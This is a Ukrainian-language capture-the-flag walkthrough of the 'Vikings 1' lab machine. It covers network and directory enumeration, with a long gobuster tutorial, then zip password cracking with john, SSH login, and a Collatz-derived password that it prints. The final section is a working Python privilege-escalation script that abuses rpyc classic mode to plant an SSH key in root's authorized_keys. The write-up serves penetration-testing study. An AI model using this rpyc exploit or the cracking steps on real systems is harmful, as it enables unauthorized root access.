# **Проходження – Vikings 1**

## 1. Отримання **IP-адресу цільової машини**

```sh
sudo netdiscover -r 10.0.2.0/24
```
Результат:



## 2. Дослідження **цільової машини** за допомогою **nmap**
```sh
nmap -sC -sV -p- -oN tcp_scan 10.0.2.19
```
Результат:

Отримали 2 сервіса - **ssh** та **http**, які будемо досліджувати в подальшому.
Час виконання - майже 2 хвилини.

## 3. Дослідження вебсервера
Спробуємо відкрити сайт за адресою, отримуємо наступний результат:

Відкриваємо наступне посилання та вже отримуємо зміст сайту:

Досліджуємо структури директорій:
```sh
gobuster dir -r -u http://10.0.2.19/site/ -w /usr/share/dirb/wordlists/common.txt -x txt,php,html -o dir-common.log
```


### Детальне пояснення до використання команди **gobuster**

Розберемо команду **покроково**, з практичними прикладами саме для пентесту / CTF.

---

### Детальне пояснення команди **gobuster**

```bash
gobuster dir -r \
  -u http://10.0.2.19/site/ \
  -w /usr/share/dirb/wordlists/common.txt \
  -x txt,php,html \
  -o dir-common.log
```

Ця команда виконує **брутфорс пошук директорій та файлів** на веб-сервері.

---

### Загальна логіка роботи

**gobuster**:

1. Бере слова з файлу `common.txt`
2. Підставляє їх у URL:

   ```
   http://10.0.2.19/site/<word>
   http://10.0.2.19/site/<word>.txt
   http://10.0.2.19/site/<word>.php
   http://10.0.2.19/site/<word>.html
   ```
3. Надсилає HTTP-запити.
4. Аналізує HTTP-відповіді.
5. Зберігає знайдені ресурси у файл `dir-common.log`.

---

### Розбір кожного параметра

---

### `gobuster dir`

> Вказує режим роботи — **directory brute force**.

Gobuster має кілька режимів:

* `dir` — пошук директорій і файлів ✅
* `dns` — піддоменів
* `fuzz` — параметрів
* `s3` — Amazon S3 bucket

Тут ми шукаємо веб-ресурси.

---

---

### `-r` — Follow Redirects

> Дозволяє Gobuster **слідувати за HTTP-редіректами (301 / 302)**.

### Без `-r`:

Якщо сервер повертає:

```
/admin → 301 → /admin/
```

**gobuster** може вважати це "порожнім результатом".

### З `-r`:

**gobuster** автоматично піде за редіректом і перевірить реальну сторінку.

👉 Корисно, коли:

* сервер примусово додає `/`
* є rewrite правила (Apache / Nginx)
* CMS перенаправляє URL

---

---

### `-u http://10.0.2.19/site/`

> Базовий URL для сканування.

Gobuster підставляє слова саме після цього шляху.

Приклад:

```
site/admin
site/uploads
site/login.php
```

⚠️ Важливо завжди закінчувати URL слешем `/`, інакше будуть некоректні запити.


### `-w /usr/share/dirb/wordlists/common.txt`

> Словник для перебору.

Файл містить типові імена:

```
admin
login
test
backup
uploads
config
```

Це **малий, швидкий словник**, ідеальний для:

* первинної розвідки
* слабких VM
* лабораторій

---

---

### `-x txt,php,html`

> Розширення файлів, які додаються до кожного слова.

**gobuster** буде перевіряти:

```
admin
admin.txt
admin.php
admin.html
```

---

### Чому це важливо?

Багато реальних вразливостей заховані саме у файлах:

* `config.php`
* `backup.txt`
* `old.html`
* `db.sql` (якщо додати)

---

---

### `-o dir-common.log`

> Запис результатів у файл.

Результат буде збережений у:

```
dir-common.log
```

Формат приблизно:

```
/admin (Status: 301)
/login.php (Status: 200)
/uploads (Status: 403)
```

👉 Корисно для:

* звітів
* аналізу
* доказів у лабораторній роботі
* подальшого мапінгу на OWASP / MITRE

---

### Приклад реального результату

```
/admin           (Status: 301)
/uploads         (Status: 403)
/backup.txt      (Status: 200)
/config.php      (Status: 200)
```

Це означає:

| Шлях          | Значення           |
| ------------- | ------------------ |
| `/admin`      | Адмінка            |
| `/uploads`    | Закрита директорія |
| `/backup.txt` | ⚠️ Можливий витік  |
| `/config.php` | ⚠️ Критично        |

---

### Типові помилки

❌ Забув `/` у кінці URL
❌ Не додав `-x` → пропустив файли
❌ Не використав `-r` → пропустив редіректи
❌ Скануєш без `-o` → втрата результатів

---

###  Корисні варіації:

#### Швидше сканування:

```bash
gobuster dir -u http://10.0.2.19/site/ -w common.txt -t 50
```

---

#### Глибший пошук:

```bash
gobuster dir -u http://10.0.2.19/site/ -w medium.txt -x php,txt,zip,bak
```

---

#### Фільтрація статусів:

```bash
gobuster dir -u http://10.0.2.19/site/ -w common.txt -s 200,301,403
```

Передивимось зміст доступних файлів, що знайшли.
Маємо зміст файла **war.txt**

Змінимо адресний рядок в браузері, та отримуємонаступний результат:

Спробуємо зрозуміти, що з цим робити. Дуже часто це може бути base64, тому одразу перевіримо:
```sh
curl http://10.0.2.19/site/war-is-over/ | base64 -d > output
file output
```

Таким чином отримуємо, що це в нас zip-архив, то маємо передивитись його зміст:
```sh
unzip output
```
Отримуємо результат:

Тобто, або версія стара, або архив з паролем.

Версія ок, то можна перевірити наявність паролю або CLI: **7z** або GUI: **xdg-open**



З'ясували, що архив з паролем, тобто наступним кроком спробуємо отримати пароль:
```sh
zip2john output > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![hashcat]./Vikings/(image-12.png)
Отримали пароль, рухаємось далі. Розгортаємо архив, отримуємо імедж-файл.
Перевіряємо на вміст додаткової інформації.

Далі передивляємось отриману інформацію та спробуємо використати.

Спроба встановити ssh-з'єднання:

Спроба вдала, отримали доступ:

Передивляємось зміст домашнього каталогу:

Підказки є, але вони трохи занадто "розумні", нам пропонують реалізувати 
гіпотезу Лотара Коллатца для 29-го простого числа (це в нас 109):
[Гіпотеза Лотара Коллатца](https://uk.wikipedia.org/wiki/%D0%93%D1%96%D0%BF%D0%BE%D1%82%D0%B5%D0%B7%D0%B0_%D0%9A%D0%BE%D0%BB%D0%BB%D0%B0%D1%82%D1%86%D0%B0)
## **Створення скрипта**

Створюємо Python-скрипт, який виводить усі числа відповідно до гіпотези Коллатца.

Перевіряємо вивід:

---

Потрібно перетворити послідовність отриманих чисел у рядок друкованих ASCII символів, для чого скористуємось **CyberChef**, 

або **ChatGPT**:
```
перетвори 
109 164 82 41 124 62 31 94 47 142 71 214 107 161 242 121 182 91 137 206 103 155 233 175 167 251 244 122 61 184 92 46 23 70 35 106 53 160 80 40 20 10 5 16 8 4 2 1
на послідовність друкованих ASCII символів
```
Отримуємо пароль:
```
mR)|>^/Gky[gz=\.F#j5P(
```

Ймовірно, він належить іншому обліковому запису.
Для швидкої перевірки переглянемо файл `/etc/passwd`, щоб побачити інформацію про користувачів.
Робимо логін в користувача **ragnar**, якого шукає **floki**

Робимо баш-шелл:
```sh
SHELL=/bin/bash script -q /dev/null
```


Йдемо в домашню директорію Рагнара, передивляємось зміст, 
виводимо вміст файлу **user.txt**

---
Проводимо перевірку з приводу підвищення привілеїв, але без успіху:


В домашній директорії знаходимо файл **.profile** та цікавий рядок:


Виявилося, що там запускається Python-файл **rpyc_classic.py**. Аналіз відкритих джерел показав, що **rpyc_classic** є найбільш небезпечним режимом RPC, оскільки дозволяє виконувати довільні команди з правами користувача **root**. Знаходимо, що він має [вразливість](https://rpyc.readthedocs.io/en/latest/index.html).
---

Готуємо процедуру екплуатації цієї вразливості. Спочатку потрібно перенести публічний ключ Kali на машину-жертву та перейменувати його у **authorized_keys**.
#### !!! Попередньо ми вже мати такі ключи, або нам потрібно:
- їх створити:

- переконатись, що веб-сервер на Калі працює, або стартувати його:

- розташувати публічний ключ на вебсервері:


Переконуємось, що знаходимось у директорії:
```
/home/Ragnar/
```
Підтягуємо публічний ключ:


Створюємо скрипт у директорії **/tmp** Та запускаємо його: 
```python
import rpyc

def getshell():
    import os
    os.system("mkdir -p /root/.ssh; chmod 700 /root/.ssh; cp /home/ragnar/authorized_keys /root/.ssh/authorized_keys") 

conn = rpyc.classic.connect("localhost")

fn = conn.teleport(getshell)
fn()
```



Користуємось ссш клієнтом для з'єднання з ВМ Вікінгі від рута:


Отримали доступ root, можемо переглянути вміст домашньої директорії.
Знаходимло файл **root.txt**, дивимось вміст.


# Вітання!

